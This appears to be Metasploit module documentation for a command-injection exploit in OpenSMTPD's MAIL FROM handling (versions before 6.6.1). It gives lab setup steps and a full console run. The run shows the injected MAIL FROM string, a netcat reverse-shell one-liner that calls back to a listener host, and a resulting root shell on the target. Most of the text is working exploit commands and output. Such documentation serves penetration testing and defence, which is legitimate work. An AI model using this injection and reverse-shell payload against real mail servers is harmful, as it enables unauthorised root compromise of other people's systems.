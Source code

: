 ## Vulnerable Application

### Description

This module exploits a command injection in the `MAIL FROM` field during
SMTP interaction with OpenSMTPD to execute a command as the root user.

### Setup

1. Download [OpenBSD 6.6](https://cdn.openbsd.org/pub/OpenBSD/6.6/amd64/install66.iso)
2. Install the system, noting the domain name (defaults to `foo.localdomain` in VMware)
3. Configure the following settings in `/etc/mail/smtpd.conf`:
  * `listen on all`
  * `match from any for domain "foo.localdomain" action "local_mail"`
4. Execute `/etc/rc.d/smtpd restart` to restart OpenSMTPD
5. Execute `ifconfig` and look for an appropriate target IP

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This targets OpenSMTPD versions < 6.6.1.

## Options

### RCPT_TO

Set this to a valid mail recipient. The default is `root`.

## Scenarios

### OpenSMTPD 6.6.0 on OpenBSD 6.6

```
msf5 > use exploit/unix/smtp/opensmtpd_mail_from_rce
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > options

Module options (exploit/unix/smtp/opensmtpd_mail_from_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RCPT_TO  root             yes       Valid mail recipient
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    25               yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   OpenSMTPD < 6.6.1


msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > set rhosts 172.16.249.137
rhosts => 172.16.249.137
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > set lhost 172.16.249.1
lhost => 172.16.249.1
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > run

[+] mkfifo /tmp/twkfr; nc 172.16.249.1 4444 0</tmp/twkfr | /bin/sh >/tmp/twkfr 2>&1; rm /tmp/twkfr
[*] Started reverse TCP handler on 172.16.249.1:4444
[*] 172.16.249.137:25 - Executing automatic check (disable AutoCheck to override)
[!] 172.16.249.137:25 - The service is running, but could not be validated.
[*] 172.16.249.137:25 - Connecting to OpenSMTPD
[*] 172.16.249.137:25 - Saying hello and sending exploit
[*] 172.16.249.137:25 - Expecting: /220.*OpenSMTPD/
[+] 172.16.249.137:25 - Received: 220 foo.localdomain ESMTP OpenSMTPD
[*] 172.16.249.137:25 - Sending: HELO JijrF2eskbXFfdlaV
[*] 172.16.249.137:25 - Expecting: /250.*pleased to meet you/
[+] 172.16.249.137:25 - Received:
250 foo.localdomain Hello JijrF2eskbXFfdlaV [172.16.249.1], pleased to meet you
[*] 172.16.249.137:25 - Sending: MAIL FROM:<;for W in a n 0 9 g D 7 N 7 B K R i u V;do read;done;sh;exit 0;>
[*] 172.16.249.137:25 - Expecting: /250.*Ok/
[+] 172.16.249.137:25 - Received:
250 2.0.0 Ok
[*] 172.16.249.137:25 - Sending: RCPT TO:<root>
[*] 172.16.249.137:25 - Expecting: /250.*Recipient ok/
[+] 172.16.249.137:25 - Received:
250 2.1.5 Destination address valid: Recipient ok
[*] 172.16.249.137:25 - Sending: DATA
[*] 172.16.249.137:25 - Expecting: /354 Enter mail.*itself/
[+] 172.16.249.137:25 - Received:
354 Enter mail, end with "." on a line by itself
[*] 172.16.249.137:25 - Sending:
#
#
#
#
#
#
#
#
#
#
#
#
#
#
#
mkfifo /tmp/rsnzh; nc 172.16.249.1 4444 0</tmp/rsnzh | /bin/sh >/tmp/rsnzh 2>&1; rm /tmp/rsnzh
[*] 172.16.249.137:25 - Sending: .
[*] 172.16.249.137:25 - Expecting: /250.*Message accepted for delivery/
[+] 172.16.249.137:25 - Received:
250 2.0.0 5bd4f87d Message accepted for delivery
[*] 172.16.249.137:25 - Sending: QUIT
[*] 172.16.249.137:25 - Expecting: /221.*Bye/
[+] 172.16.249.137:25 - Received:
221 2.0.0 Bye
[*] Command shell session 1 opened (172.16.249.1:4444 -> 172.16.249.137:28550) at 2020-02-28 10:28:14 -0600

id
uid=0(root) gid=0(wheel) groups=0(wheel)
uname -a
OpenBSD foo.localdomain 6.6 GENERIC#353 amd64
```
